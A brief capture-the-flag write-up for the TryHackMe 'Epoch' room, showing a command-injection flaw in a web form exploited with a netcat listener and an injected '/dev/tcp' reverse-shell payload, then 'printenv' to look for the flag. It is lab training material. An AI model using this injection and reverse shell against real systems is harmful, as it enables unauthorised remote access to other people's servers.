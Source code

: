 ```yaml
---
title: Epoch
tags:
  - thm
  - easy
---
```


#### Author: AMD

![[static/epoch/epoch.png]]

This is a writeup for <b>Epoch</b> room.

My target IP: 10.10.218.15

-----------------------------------------------------------------------------------
<b>VISIT WEB PAGE</b>

If we read the room explanation "Our website actually just passes your input right along to that command-line program!" we can see that we might be able to run commands. So lets try it.

![[static/epoch/ls.png]]

Perfect, we can run commands. Lets find a way to get in.

-----------------------------------------------------------------------------------
<b>REVERSE SHELL</b>

Visit https://www.revshells.com/ and use your pc's IP to handle the condiguration.

![[static/epoch/shell_conf.png]]

run "nc -lvnp 9001"

input "&sh -i >& /dev/tcp/10.10.244.218/9001 0>&1"

![[static/epoch/conn_received.png]]

-----------------------------------------------------------------------------------
<b>GET THE FLAG</b>

When we look around we can not find the flag. Lets look at the hint: "The developer likes to store data in environment variables, can you find anything of interest there?"

Lets try "printenv" to see the environment variables.

![[static/epoch/printenv.png]]

-----------------------------------------------------------------------------------
